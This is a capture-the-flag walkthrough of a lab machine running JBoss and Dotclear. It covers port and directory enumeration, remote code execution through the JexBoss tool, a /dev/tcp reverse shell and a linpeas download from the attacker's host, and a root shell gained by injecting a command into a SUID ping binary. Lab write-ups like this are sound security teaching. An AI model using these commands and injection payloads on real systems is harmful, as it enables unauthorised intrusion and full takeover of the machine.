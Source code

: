 # Jacob the Boss - Medium

* Add ```jacobtheboss.box``` to ```/etc/hosts``` and start scan - ```nmap -T4 -p- -A -Pn -v jacobtheboss.box```:

  * 22/tcp - ssh - OpenSSH 7.4 (protocol 2.0)
  * 80/tcp - http - Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
  * 111/tcp - rpcbind - 2-4 (RPC #100000)
  * 1090/tcp - java-rmi - Java RMI Registry
  * 1098/tcp - rmiregistry - Java RMI
  * 1099/tcp - java-rmi - Java RMI
  * 3306/tcp - mysql - MariaDB (unauthorized)
  * 3873/tcp - java-rmi - Java RMI
  * 4444/tcp - rmiregistry - Java RMI
  * 4446/tcp - java-rmi - Java RMI
  * 4457/tcp - tandem-print - Sharp printer tandem printing
  * 4712/tcp - msdtc - Microsoft Distributed Transaction Coordinator (error)
  * 4713/tcp - pulseaudio
  * 8009/tcp - ajp13 - Apache Jserv (Protocol v1.3)
  * 8080/tcp - http - Apache Tomcat/Coyote JSP engine 1.1
  * 8083/tcp - http - JBoss service httpd
  * 40348/tcp - rmiregistry - Java RMI

* On port 80, we have a blog page hosted by Dotclear; there is only one post with a comment from 'jacob', but it does not include anything interesting. We can do basic enumeration:

  ```sh
  gobuster dir -u http://jacobtheboss.box -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg -t 25
  # directory scanning

  ffuf -c -u "http://jacobtheboss.box" -H "Host: FUZZ.jacobtheboss.box" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 25
  # subdomain enumeration

  ffuf -c -u "http://jacobtheboss.box" -H "Host: FUZZ.jacobtheboss.box" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 25 -fs 5214 -s
  # filtering false positives
  # this does not give anything

  gobuster vhost -u http://jacobtheboss.box -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
  # vhost enumeration
  # nothing found
  ```

* Web scanning gives us a lot of hits; interesting ones include:

  * /themes
  * /public
  * /admin
  * /README.md
  * /CHANGELOG

* We have a admin login page at /admin; and /CHANGELOG shows that the blog is running on Dotclear 2.16.9 (this is confirmed from source code of /admin login page as well)

* We can try default creds like 'admin:admin' or 'root:root', but it does not give us anything; we can continue to enumerate other services first

* Enumerating RPC on port 111:

  ```sh
  rpcinfo jacobtheboss.box

  rpcclient -U "" -N jacobtheboss.box
  # NT_STATUS_CONNECTION_REFUSED
  ```

* Continuing our web enumeration, on port 8080, we seem to have JBoss application manager running. We can start with web scanning:

  ```sh
  gobuster dir -u http://jacobtheboss.box:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg -t 25
  ```

* Directory scanning gives us the following pages on port 8080:

  * /images
  * /css
  * /status
  * /manager

* Other than these directories, from the source code, we can see options for JMX console at /jmx-console and Web console at /web-console

* We can further enumerate JBoss using ```msfconsole```:

  ```sh
  msfconsole

  search jboss
  # we have a scanner module

  use auxiliary/scanner/http/jboss_vulnscan

  options

  set RHOSTS jacobtheboss.box

  set RPORT 80

  run
  ```

* With the help of Metasploit, we are able to identify that on port 8080, the server is running Apache-Coyote/1.1, powered by Servlet 2.5; JBoss-5.0, JBossWeb-2.1

* JBoss 5 seems to be vulnerable to RCE; we have [an article exploiting JBoss through a malicious WAR file](https://medium.com/@madrobot/exploiting-jboss-like-a-boss-223a8b108206), and we also have a tool for exploiting JBoss - [JexBoss](https://github.com/joaomatosf/jexboss)

* We can try JexBoss to exploit the RCE vulnerability:

  ```sh
  # setup the tool first
  git clone https://github.com/joaomatosf/jexboss.git

  cd jexboss

  pip install -r requires.txt

  python jexboss.py -h

  python jexboss.py -host http://jacobtheboss.box:8080
  # this works and we get a shell

  # we have command execution now

  # we can get a better shell
  # setup listener in attacker machine
  nc -nvlp 4444

  # in jexboss shell
  sh -i >& /dev/tcp/10.14.60.78/4444 0>&1

  # we get reverse shell

  # stabilise the shell
  which python

  python -c 'import pty;pty.spawn("/bin/bash")'
  export TERM=xterm
  # Ctrl+Z
  stty raw -echo; fg
  # press Enter twice

  pwd

  ls -la /home
  # we have only 'jacob' user

  ls -la /home/jacob

  cat /home/jacob/user.txt
  # user flag

  # for basic enumeration, we can use linpeas.sh

  # in attacker machine, setup server
  python3 -m http.server 8000

  # in reverse shell
  cd /tmp

  wget http://10.14.60.78:8000/linpeas.sh

  chmod +x linpeas.sh

  ./linpeas.sh
  ```

* ```linpeas.sh``` shows an unknown SUID binary - ```/usr/bin/pingsys```. We need to check it further:

  ```sh
  ls -la /usr/bin/pingsys

  /usr/bin/pingsys
  # on running this, we get errors
  # syntax error near unexpected token `('
  # `ping -c 4 (null)''
  ```

* It seems the binary is expecting an argument, that is, an IP to ping to:

  ```sh
  /usr/bin/pingsys 127.0.0.1
  # this works
  # and we are seeing the output of 'ping' command itself
  ```

* The command seems to be running 'ping' under the hood, but throws an error when we do not give any arguments. As the error is associated with a missing quote, we can attempt command injection for this SUID binary:

  ```sh
  /usr/bin/pingsys 127.0.0.1`ls`
  # backticks do not work
  # as the 'ls' command is executed as it is

  /usr/bin/pingsys 127.0.0.1'id'
  # simply using quotes also does not work

  /usr/bin/pingsys 127.0.0.1'; id'
  # quote with semicolon works
  # and we get 'root' as output of 'id' after successful ping output
  ```

* Command injection works for this SUID binary with quote and semicolon - we can spawn a root shell using this method:

  ```sh
  /usr/bin/pingsys 127.0.0.1'; /bin/bash'
  # we get root shell after ping output

  cat /root/root.txt
  # root flag
  ```
